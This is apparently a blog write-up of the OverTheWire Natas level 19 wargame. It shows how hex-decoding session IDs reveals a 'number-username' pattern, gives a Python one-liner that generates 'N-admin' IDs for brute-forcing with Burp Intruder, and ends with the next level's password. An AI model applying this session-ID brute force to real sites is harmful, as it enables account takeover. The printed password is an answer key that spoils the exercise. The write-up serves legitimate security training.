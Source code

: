 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 19"
date:   2015-09-26
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

## Level 19 > Level 20

![natas19-01](/img/otw-natas/natas19-01.png)

No code this time!

My first thought is to examine the PHPSESSID. While longer, it does not appear to be the familiar PHP-provided session token. I submit the same POST request three times with user 'useruser' and password 'passpass' to examine the tokens.

```
39302d7573657275736572
3135342d7573657275736572
3230342d7573657275736572
```

Even with only three, it's obvious that they share a suffix `2d7573657275736572`.

Lots of two-digit numbers started with 3 smells like hex ASCII, so convert each token to straight characters.

```
90-useruser
154-useruser
204-useruser
```

Ouch. Back to Burp Intruder, this time with a list of values fashioned as above. They can be generated with the following Python one-liner, saved to a file, and loaded into Intruder.

```
python -c "print '\n'.join(str(s) for s in ['{}-admin'.format(x).encode('hex') for x in range(640)])"
```

```
otw@sake:~/natas$ python -c "print '\n'.join(str(s) for s in ['{}-admin'.format(x).encode('hex') for x in range(640)])" > natas19.txt
otw@sake:~/natas$ head natas19.txt 
302d61646d696e
312d61646d696e
322d61646d696e
332d61646d696e
342d61646d696e
352d61646d696e
362d61646d696e
372d61646d696e
382d61646d696e
392d61646d696e
```

Send them down the pipe, and again with the single response suspiciously of a different length...

![natas19-02](/img/otw-natas/natas19-02.png)

eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF



